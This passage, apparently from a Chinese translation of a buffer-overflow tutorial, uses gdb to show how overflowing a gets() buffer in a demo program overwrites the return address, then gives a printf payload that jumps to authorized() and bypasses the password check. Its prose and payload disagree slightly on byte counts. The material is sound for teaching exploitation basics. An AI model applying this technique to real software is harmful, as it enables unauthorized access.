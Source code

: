 我输入了密码“aabbccdd”，这样我们看起来方便点。从`gets()`返回之后，因为我们使用了`sub rsp,0x10`，所以，栈上还有其他16个字节在之前这些数据的“下面”。因为这些被当作是缓冲区来用的，所以我们可以看到字节被存储为反的顺序（注：这句作者说的有点玄乎，我按原文翻译下来了，其实就是Little-Endian啦，看不懂作者说啥的看这里看这里：[http://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F#.E5.B0.8F.E7.AB.AF.E5.BA.8F](http://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F#.E5.B0.8F.E7.AB.AF.E5.BA.8F)）。 0x61是小写字母a的ASCII码，0x62是b，以此类推。如果我们输入16个字节a的话，我们可以看到我们的数据“填充上”了栈区：

```
(gdb) b *0x00000000004006c4
Breakpoint 4 at 0x4006c4: file overflow.c, line 14.

(gdb) c
Continuing.
aaaaaaaaaaaaaaaa

Breakpoint 4, getInput () at overflow.c:14
14    if(strcmp(pass, crypt(buffer, "$1$k3Eadsf$")) == 0) {

(gdb) x/8gx $rsp
0x7fffffffe6d0: 0x6161616161616161  0x6161616161616161
0x7fffffffe6e0: 0x00007fffffffe6f0  0x0000000000400700
0x7fffffffe6f0: 0x0000000000000000  0x00007ffff7818a15
0x7fffffffe700: 0x0000000000000000  0x00007fffffffe7d8

```

因此，如果我们提供一个足够长的输入数据，我们就可以用authorize的地址来覆盖这个函数该返回的返回地址。反编译一下`authorized()`函数来获取一下我们所需要的地址：

```
(gdb) disas authorized
Dump of assembler code for function authorized:
0x00000000004006a0 <+0>:   push   rbp
0x00000000004006a1 <+1>:  mov    rbp,rsp
0x00000000004006a4 <+4>:  mov    edi,0x4007e2
0x00000000004006a9 <+9>:  call   0x400550 <puts@plt>
0x00000000004006ae <+14>: pop    rbp
0x00000000004006af <+15>: ret
End of assembler dump.

```

现在我们所有要做的就是把getInput的返回地址覆盖为`0x00000000004006a0`，而且我们可以做到。我们可以在shell里用printf把数据传给程序，你可以用\x来转意16进制数据，因为地址是倒着来的（注：小端），所以我们也倒着给它就好了。还有，我们需要用0x00来终止我们的缓存，这样strcmp就不会在我们函数返回之前引起一个段错误。printf的结果如下：

```
printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00\x00\x00" | ./overflow

```

这有16个a，还有7个空字符（`\x00`）来覆盖rbp，最后，我们用我们的目标地址覆盖了正常时的返回地址。如果我们运行它的话，程序将会触发漏洞，直接跑到authorized()里。尽管我们还没输啥对的密码。

```
cris@spectrumit-cris ~/D/p/overflow> printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00\x00\x00" |
 ./overflow
You rascal you!
fish: Process 9299, “./overflow” from job 1, “printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00
\x00\x00" | ./overflow” terminated by signal SIGSEGV (Address boundary error)

```
